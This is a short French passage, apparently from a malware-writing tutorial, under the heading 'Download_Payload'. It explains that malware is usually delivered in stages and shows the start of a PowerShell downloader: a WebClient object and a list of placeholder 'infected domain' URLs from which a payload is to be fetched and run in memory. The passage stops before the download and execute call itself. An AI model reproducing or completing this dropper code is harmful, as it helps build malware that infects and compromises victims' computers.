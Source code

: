 
La plupart des malwares ne sont pas distribué en un seul fichier.

## __Download_Payload___

Afin télécharger et d'éxecuter le malware en mémoire. On va faire appelle à un domaine infecté pour télécharger notre payload.

Avec powershell ce code ressemblerai à cela :

```powershell
$wvh = new-object net.webclient;
$nsh='http://<InfectedDomain1>/trkldl@http://<InfectedDomain2>/adCa0ad@http://<InfectedDomain3>/bl4bl4c4r';

```